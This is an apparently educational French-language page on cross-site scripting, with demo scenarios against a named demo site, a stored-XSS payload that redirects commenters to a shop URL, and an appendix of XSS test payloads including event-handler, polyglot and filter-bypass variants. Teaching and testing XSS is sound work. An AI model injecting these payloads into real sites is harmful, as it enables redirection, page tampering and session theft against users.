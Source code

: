 # Introduction

Les attaques XSS (Cross-Site Scripting) sont des vulnérabilités web critiques qu'il est important de comprendre dans un contexte pédagogique. Voici une présentation structurée de ce type d'attaque.

# Types d'attaques XSS principaux

**XSS Réfléchi (Reflected)**
- L'attaque se produit lorsque les données malveillantes sont immédiatement renvoyées à l'utilisateur
- Nécessite que la victime clique sur un lien spécialement conçu
- Cible souvent les pages de recherche et les messages d'erreur

**XSS Persistant (Stored)**
- Le code malveillant est stocké sur le serveur de manière permanente
- Affecte tous les visiteurs de la page compromise
- Particulièrement dangereux car peut toucher des milliers d'utilisateurs






# 🚀 **Démonstration  : Testez Votre Sécurité Web** 🔥  

- http://latestworlds.com/demo/
- http://latestworlds.com/demo/article.php?id=1#

### 🛡️ **Êtes-vous prêt à découvrir des vulnérabilités en un clin d'œil ?** 💡  

Nous vous proposons un **scénario simple**, mais **puissant** pour démontrer les risques XSS (Cross-Site Scripting). **Testez-le sur vos plateformes !**

---
# ⚡ **Scénario 1 : Exploitez une injection simple XSS**  
---

🎯 **Liens de test :**  
1️⃣ [http://latestworlds.com/demo/](http://latestworlds.com/demo/)  



**Code js du scénario 1**
```javascript
// Exemple de payload basique pour démonstration
<script>alert('XSS!')</script>
```


# 💥 **Capture 1** : **Injection XSS réussie**  


![image](https://github.com/user-attachments/assets/ae85fbc2-df75-48e4-b0d4-a83e80c5ace6)  


⚠️ **Vous verrez un pop-up avec un simple `alert('XSS!')`.** Cela prouve qu’une faille XSS existe ! 🕵️‍♂️  


----
# ⚡ **Scénario 2 : Mathieu redirige les commentaeurs vers son site web pour vendre des articles**  
----

🎯 **Liens de test :**  
2️⃣ [http://latestworlds.com/demo/article.php?id=1#](http://latestworlds.com/demo/article.php?id=1#)  





# Étapes 🚀  

## 2.1. Accédez à la section des commentaires 🗨️  

Pour commencer, plongez dans la **section des commentaires** où chacun peut partager ses pensées et son enthousiasme.  

![image](https://github.com/user-attachments/assets/0a95be5e-17f1-4507-9362-79465c1ff144)  

---

## 2.2. Premier commentaire ⭐  

**Mathieu l’enthousiaste** débarque avec une déclaration simple mais sincère : il **adore WordPress**.  

> *"WordPress, c’est la vie ! Créer des sites, c’est trop cool."*  

![image](https://github.com/user-attachments/assets/53434e99-3082-4cf8-9f03-4856691a060c)  

---

## 2.3. Résultat : Un commentaire simple et positif ✅  

Tout fonctionne comme prévu, et Mathieu nous offre un exemple de **commentaire sain et constructif**.  

![image](https://github.com/user-attachments/assets/b8f16c7f-3b86-41d4-9f44-c2c15c4c2c24)  

---

## 2.4. Deuxième commentaire 💡  

**Marc le passionné** rejoint la conversation avec son amour inébranlable pour **JavaScript**.  

> *"Avec JavaScript, je peux tout coder ! Des animations, des scripts, même un café si je m’y mets."*  

![image](https://github.com/user-attachments/assets/9aeacbd8-4088-4df8-93b8-9f7e0500854a)  

---

## 2.5. Et voilà… **un autre Mathieu** débarque 🕵️‍♂️  

Mais cette fois, ce n’est **pas Mathieu le sympa**. Non, **c’est Mathieu le farceur**, celui qui a trop regardé des tutos de hackers sur YouTube. Il tente une **attaque XSS** pour voir si la sécurité est béton.  

> *"Oh tiens, et si je testais un peu la sécurité de ce site ?"*  
```javascript
<script>alert('XSS!')</script>
```  

![image](https://github.com/user-attachments/assets/3499c6e2-b003-49ec-a200-0c21b87457d0)  

---

**🎯 Morale de l’histoire :**  
Même un "autre Mathieu" peut parfois jouer au **malicieux**. Il est donc crucial d’avoir une sécurité en béton armé pour éviter que le farceur du jour ne s’amuse trop avec votre site ! 🔒  

---

















## 2.1. Allez à la section des commentaires :

![image](https://github.com/user-attachments/assets/0a95be5e-17f1-4507-9362-79465c1ff144)


## 2.2. Un premier utilisateur Mathieu gentil ajoute un commentaire simple indiquant sa passion à la programmation des sites WordPress

![image](https://github.com/user-attachments/assets/53434e99-3082-4cf8-9f03-4856691a060c)

## 2.3. Résultat - Commentaire non malicieux 

![image](https://github.com/user-attachments/assets/b8f16c7f-3b86-41d4-9f44-c2c15c4c2c24)

## 2.4. Un deuxième utilisateur Marc ajoute un autre commentaire simple indiquant sa passion à la programmation en JavaScript

![image](https://github.com/user-attachments/assets/9aeacbd8-4088-4df8-93b8-9f7e0500854a)

## 2.5. Un autre utilisateur Mathieu méchant ajoute un commentaire Malicieux pour attquer

![image](https://github.com/user-attachments/assets/3499c6e2-b003-49ec-a200-0c21b87457d0)

```javascript
// Exemple de payload basique pour démonstration
<script>alert('XSS!')</script>
```



--------------



**Code js du scénario 2**

### Script XSS pour redirection
```html
<script>window.location.href="https://boutique.rapidopresco.com/";</script>
```

### Explication
- **`<script>`** : Balise JavaScript qui exécute le code.
- **`window.location.href`** : Permet de rediriger l'utilisateur automatiquement vers le site souhaité.



💥 **Capture 2** : **Résultat dans l’interface utilisateur**  



![image](https://github.com/user-attachments/assets/0a95be5e-17f1-4507-9362-79465c1ff144)  

---

🉑 Commentaire non malicieux 
![image](https://github.com/user-attachments/assets/53434e99-3082-4cf8-9f03-4856691a060c)  

💥 Commentaire malicieux

```html
<script>window.location.href="https://boutique.rapidopresco.com/";</script>
``

---

## 🔍 **Pourquoi tester vos systèmes ?**  
✅ **Détectez** les vulnérabilités **avant les hackers** 💻  
✅ **Renforcez** la sécurité de vos plateformes 🛡️  
✅ **Montrez à vos clients que vous êtes fiable !** 🔒  

---

🎁 **Prêt à aller plus loin ?** Testez **gratuitement** dès maintenant ! 🚀  

🔥 **Ne laissez pas les vulnérabilités compromettre votre succès !** 🔥  

---  

### 📢 **Partagez cette démonstration avec votre équipe !** 👥  
🔗 **Faites passer le message : La sécurité, c’est pour tous !**  

















# Démonstration 






**Scénario 2**

Le script est le suivant :

```html
<script>alert("XSS Stocké !!!");</script>
```

Ceci montre une démonstration d'une attaque **XSS stockée (Cross-Site Scripting)** où un script malveillant est injecté dans un formulaire et peut être exécuté côté client.

**Scénario 3**


---

### Exemple d'injection
Ajoutez ceci dans le champ de commentaire ou de pseudo pour simuler une attaque XSS stockée ou réfléchie :

```html
<script>alert('Alerte XSS !'); window.location.href="https://boutique.rapidopresco.com/";</script>
```

---

### **Pédagogie et Sécurité**
- Cette démonstration sert à montrer l'impact d'une mauvaise validation des entrées.
- Il est important d'assainir (sanitize) les données côté serveur pour éviter l'exécution de scripts malveillants.  





**Points importants**
- Ne jamais tester sur des sites réels
- Utiliser uniquement des environnements contrôlés
- Mettre l'accent sur la prévention et la sécurisation

# Impacts et risques

**Conséquences possibles**
- Vol de cookies et sessions utilisateurs
- Hameçonnage et vol d'identifiants
- Détournement de sessions authentifiées
- Modification du contenu des pages

# Prévention

**Mesures de sécurité essentielles**
- Validation stricte des entrées utilisateur
- Encodage HTML des sorties
- Utilisation de frameworks sécurisés
- Mise en place d'une Content Security Policy (CSP)

-------------------
# Annexe :
-------------------

## Scripts XSS pour tests pédagogiques

**Scripts basiques**
```javascript
// Affichage simple
<script>alert('XSS Test')</script>
// Utilisation de fromCharCode
<a href="javascript:alert(String.fromCharCode(88,83,83))">Cliquez ici</a>
```

**Scripts avec gestionnaires d'événements**
```html
// Utilisation de onerror
<img src="inexistant" onerror="alert('XSS via onerror')">
// Utilisation de onload avec SVG
<svg onload=alert('XSS')>
// Utilisation de BODY
<BODY ONLOAD=alert('XSS')>
```

**Scripts avancés**
```javascript
// Script polyglot multi-contextes
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>

// Style avec list-style-image
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

## Contextes d'utilisation

**Test de validation d'entrées**
```javascript
// Injection dans les paramètres URL
?keyword=<script>alert("Test XSS")</script>

// Injection dans les formulaires
<img src="aaaaa" onerror="alert('Bypass filtres');" />
```

Il est crucial de n'utiliser ces scripts que dans un environnement de test contrôlé et isolé.



